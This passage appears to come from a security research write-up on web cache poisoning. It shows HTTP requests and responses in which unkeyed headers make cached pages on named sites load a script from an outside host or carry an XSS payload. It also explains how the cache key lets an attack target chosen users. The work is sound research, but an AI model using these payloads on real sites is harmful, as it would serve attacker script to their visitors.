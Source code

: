  Luckily, many websites make our life easier. Take this cache poisoning vulnerability in unity3d.com:
</p>
GET / HTTP/1.1 Host: unity3d.com X-Host: portswigger-labs.net
<p>
 HTTP/1.1 200 OK Via: 1.1 varnish-v4 Age: 174 Cache-Control: public, max-age=1800 … &lt;script src="https://portswigger-labs.net/sites/files/foo.js"&gt;&lt;/script&gt;
</p>
<p>
 We have an unkeyed input - the X-Host header – being used to generate a script import. The response headers 'Age' and 'max-age' respectively specify the age of the current response, and the age at which it will expire. Taken together, these tell us the precise second we should send our payload to ensure our response gets cached.
</p>
Selective Poisoning
<p>
 HTTP headers can provide other time-saving insights into the inner workings of caches. Take the following well-known website, which is using Fastly and sadly can't be named:
</p>
GET / HTTP/1.1 Host: redacted.com User-Agent: Mozilla/5.0 … Firefox/60.0 X-Forwarded-Host: a"&gt;&lt;iframe onload=alert(1)&gt;
<p>
 HTTP/1.1 200 OK X-Served-By: cache-lhr6335-LHR Vary: User-Agent, Accept-Encoding … &lt;link rel="canonical" href="https://a"&gt;a&lt;iframe onload=alert(1)&gt; &lt;/iframe&gt;
</p>
<p>
 This initially looks almost identical to the first example. However, the Vary header tells us that our User-Agent may be part of the cache key, and manual testing confirms this. This means that because we've claimed to be using Firefox 60, our exploit will only be served to other Firefox 60 users. We could use a list of popular user agents to ensure most visitors receive our exploit, but this behaviour has given us the option of more selective attacks. Provided you knew their user agent, you could potentially tailor the attack to target a specific person, or even conceal itself from the website monitoring team.
</p>
DOM Poisoning
<p>
 Exploiting an unkeyed input isn't always as easy as pasting an XSS payload. Take the following request:
</p>
GET /dataset HTTP/1.1 Host: catalog.data.gov X-Forwarded-Host: canary
<p>
 HTTP/1.1 200 OK Age: 32707 X-Cache: Hit from cloudfront … &lt;body data-site-root="https://canary/"&gt;
</p>
<p>
 We've got control of the 'data-site-root' attribute, but we can't break out to get XSS and it's not clear what this attribute is even used for. To find out, I created a match and replace rule in Burp to add an 'X-Forwarded-Host: id.burpcollaborator.net' header to all requests, then browsed the site. When certain pages loaded, Firefox sent a JavaScript-generated request to my server:
</p>
GET /api/i18n/en HTTP/1.1 Host: id.burpcollaborator.net
<p>
 The path suggests that somewhere on the website, there's JavaScript code using the data-site-root attribute to decide where to load some internationalisation data from. I attempted to find out what this data ought to look like by fetching https://catalog.data.gov/api/i18n/en, but merely received an empty JSON response. Fortunately, changing 'en' to 'es' gave a clue:
</p>
GET /api/i18n/es HTTP/1.1 Host: catalog.data.gov
<p>
 HTTP/1.1 200 OK … {"Show more":"Mostrar más"}
</p>
<p>